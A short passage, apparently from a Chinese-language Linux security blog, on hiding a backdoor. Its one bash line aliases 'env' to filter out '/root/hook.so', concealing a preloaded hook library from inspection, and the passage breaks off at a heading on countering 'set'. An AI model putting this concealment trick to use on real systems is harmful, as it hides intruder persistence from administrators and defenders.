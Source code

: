 [![](assets/1708920000-96fad04cb2b2961311959c7ae44ac69d.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162905484.png)

alias 劫持回显，grep -v 就可以了

[![](assets/1708920000-34a2f9e6e5895de5bcd0ff7686a0316e.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163038107.png)

```bash
alias env='func(){ env $* | grep -v "/root/hook.so";};func'
```

##### set 对抗

没有添加后门是这样：
